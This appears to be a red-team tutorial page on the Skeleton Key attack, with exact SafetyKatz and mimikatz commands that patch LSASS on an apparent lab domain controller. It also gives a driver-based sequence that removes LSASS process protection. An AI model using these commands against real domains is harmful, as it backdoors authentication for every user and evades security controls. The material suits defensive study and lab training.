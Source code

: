 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Skeleton Key

{% hint style="warning" %}
**OPSEC**: The Skeleton Key method is considered highly OPSEC-risky due to direct interaction with the DC and the potential for detection in memory or logs.
{% endhint %}

The Skeleton Key attack allows an attacker to **patch the LSASS process on a Domain Controller to accept a single hardcoded "master password" for all domain users**. With this backdoor in place, the attacker can authenticate as any user — including privileged accounts — without modifying actual credentials in Active Directory.

Executing this attack **requires Domain Admin privileges** and direct code injection into LSASS. It is **not persistent across reboots** and is known to interfere with services like Active Directory Certificate Services (AD CS), potentially causing instability.

{% code overflow="wrap" %}
```powershell
# The default password is mimikatz
.\SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcop.moneycorp.local
```
{% endcode %}

If LSASS is running as a **Protected Process Light (PPL)** — which is common in hardened environments — standard Skeleton Key injection will fail. In such cases, the attack can still be performed using the **Mimikatz driver** (`mimidriv.sys`), which must be placed on disk and loaded on the target DC:

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

This approach temporarily disables protection on LSASS to allow patching, but it is **extremely noisy**, involving kernel-mode driver installation, which is likely to trigger alerts in modern EDRs and logging systems.
